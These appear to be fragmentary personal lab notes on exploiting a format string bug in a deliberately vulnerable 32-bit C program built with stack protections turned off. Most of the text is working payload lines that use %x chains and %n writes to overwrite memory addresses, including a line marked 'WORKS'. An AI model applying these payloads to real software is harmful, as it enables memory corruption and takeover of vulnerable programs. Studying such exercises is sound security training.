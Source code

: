 

python3 -c 'print("\xb0\xa5\x55\x56" + "AAAABBBBCCCC" + "%x.%x.%x.%x.%x.%x.%x.%x.%s")' > input


AAAABBBBCCCC 1448435888 %x.%x.%x.%x.%x.%x.%x.%x.%n


printf "AAAABBBBCCCCDDDDEEEE %x.%x.%x.%x.%x.%x.%x.%x.%x.%s" > input



%x.%x.%x.%x.%x.%x.%x.%x.%x.%10n



%x.%x.%x.%x.%x.%x.%x.%x.%n



	gcc -m32 -g -o format_string -z execstack -fno-stack-protector format_string.c


0x5655a1a0

0x5655A1AC


printf "\xa4\xa1\x55\x56%20c%n" > input


print ""


10


## REAL


![[Pasted image 20250827190042.png]]

echo $(printf "\xa4\xa1\x55\x56").%x.%x.%x.%x.%x.%x.%x.%x.%x.AAAAAA%n > input


echo $(printf "\xac\xa1\x55\x56").%x.%x.%x.%x.%x.%x.%x.%x.%x.AAAAAA%n > input

0x5655A1AC


echo $(printf "\xa4\xa1\x55\x56").%x.%x.%x.%x.%x.%x.%x.%x.%x.AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%n > input

![[Pasted image 20250828201017.png]]

![[Pasted image 20250828201131.png]]

#### Payload 2.1
echo $(printf "\xa4\xa1\x55\x56").%x.%x.%x.%x.%x.%x.%x.%x.%x.AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%n > input

##### Randomized address
echo %x.%x.%x.%x.%x.%x.%x.%x.%x.AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%n > input

### WORKS
%x.%x.%x.%x.%x.%x.%x.%x.%x.AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%n
